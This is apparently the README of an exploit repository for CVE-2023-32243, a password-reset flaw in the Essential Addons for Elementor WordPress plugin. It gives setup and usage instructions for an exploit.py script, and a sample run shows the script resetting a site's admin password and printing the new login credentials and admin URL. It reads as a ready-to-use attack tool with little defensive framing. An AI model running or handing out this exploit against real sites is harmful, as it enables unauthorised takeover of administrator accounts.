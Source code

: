 # CVE-2023-32243
![](https://img.shields.io/static/v1?label=Product&message=Essential%20Addons%20for%20Elementor&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=5.4.0-5.7.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Privilege%20Escalation&color=red)



### Info
The plugin does not validate the password reset key, which could allow unauthenticated attackers to reset arbitrary account's password to anything they want, by knowing the related email or username, gaining access to them.

- Python Setup
```
pip install -r requirements.txt
```


### Exploit Details
https://patchstack.com/articles/critical-privilege-escalation-in-essential-addons-for-elementor-plugin-affecting-1-million-sites/

- Usage
```
usage: exploit.py [-h] -u URL -p PASSWORD [-usr USERNAME]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of the WordPress site
  -p PASSWORD, --password PASSWORD
                        Password to set for the selected username
  -usr USERNAME, --username USERNAME
                        Username of the user to reset if you already know it.
 ```

- Example

```
python3 exploit.py --url http://wordpress.lan  --password "adminadmin2"
Please select a username:
1. admin
> 1
Nonce value: f010bc2ac9
All Set! You can now login using the following credentials:
Username:  admin
Password:  adminadmin2
Admin Url: http://wordpress.lan/wp-admin/
```
